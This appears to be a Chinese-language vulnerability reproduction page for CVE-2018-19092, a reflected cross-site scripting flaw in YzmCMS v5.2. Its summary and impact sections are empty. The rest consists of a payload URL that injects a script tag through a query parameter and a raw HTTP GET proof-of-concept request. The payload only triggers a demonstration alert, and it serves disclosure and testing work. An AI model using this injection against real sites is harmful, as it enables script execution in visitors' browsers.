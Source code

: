 # （CVE-2018-19092）YzmCMS v5.2 xss漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3306](https://www.zhihuifly.com/t/topic/3306)

# （CVE-2018-19092）YzmCMS v5.2 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html

XSS payload: [http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1](http://192.168.1.40/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22>alert(1)<%2fscript>r6qt2=1)

POC:

```
GET /search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1 HTTP/1.1
Host: www.0-sec.org
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.1.40/search/index/archives/pubtime/1526387722.html
Cookie: PHPSESSID=u0bh5qnr84qsu9aa0oj8vpkuk2 
```